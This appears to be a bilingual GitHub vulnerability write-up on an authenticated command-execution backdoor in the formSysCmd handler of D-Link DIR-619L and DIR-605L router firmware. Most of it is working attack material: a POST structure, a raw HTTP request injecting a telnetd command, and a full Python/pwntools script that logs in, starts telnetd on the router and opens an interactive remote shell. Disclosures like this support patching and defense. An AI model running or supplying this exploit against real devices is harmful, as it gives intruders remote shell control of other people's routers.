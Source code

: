 ```
Dlink model DIR-619L, the latest firmware 2.06B1, there is a backdoor function that can cause any system command to be executed after user authentication
download link: ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/
Vulnerability location: file:  /bin/boa  function:formSysCmd
The attacker calls this function by sending a post packet to the http://ip/goform/formSysCmd page.
The program will call the system function with the value of syscmd in the post package.
```
Post package structure

``` python
postData = {
	'sysCmd':cmd,
	'submit-url':'1234',
	}
response = requests.post('http://192.168.0.1/goform/formSysCmd',data=postData)
``` 
Http message:
``` 
POST /goform/formSysCmd HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.20.1
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
submit-url=1234&sysCmd=telnetd+-p+90
``` 
The same problem exists with the latest firmware 2.12B1 on the DIR-605L.
download link:ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/8.png)

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/7.png)





Dlink型号DIR-619L最新固件2.06B1上存在验证身份后命令执行后门。
下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/
攻击者可在验证身份后执行任意的系统命令。
漏洞位置 /bin/boa上的formSysCmd函数。
攻击者通过向http://ip/goform/formSysCmd页面发送post包调用此函数。
程序会将post包中syscmd的值通过sprintf后调用system函数。
Post结构
postData = {
	'sysCmd':cmd,
	'submit-url':'1234',
	}
	response = requests.post('http://192.168.0.1/goform/formSysCmd',data=postData)
http报文:
POST /goform/formSysCmd HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.20.1
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
submit-url=1234&sysCmd=telnetd+-p+90

型号DIR-605L最新固件2.12B1上同样存在该问题。
下载地址ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/


 
Script:
``` python
import requests
import sys
import struct
import base64
from pwn import *
ip='192.168.0.1'
port=101
def login(user,password):
	postData = {
	'login_name':'',
	'curTime':'12345',
	'FILECODE':'',
	'VER_CODE':'',
	'VERIFICATION_CODE':'',
	'login_n':user,
	'login_pass':base64.b64encode(password),
	}
	response = requests.post('http://192.168.0.1/goform/formLogin',data=postData)
def syscmd(cmd):
	postData = {
	'sysCmd':cmd,
	'submit-url':'1234',
	}
	response = requests.post('http://192.168.0.1/goform/formSysCmd',data=postData)
def inter():
	p=remote(ip,port)
	p.interactive()
if __name__ == "__main__":
	login('admin','123456')
	syscmd('telnetd -p '+str(port))
	inter()
	
``` 

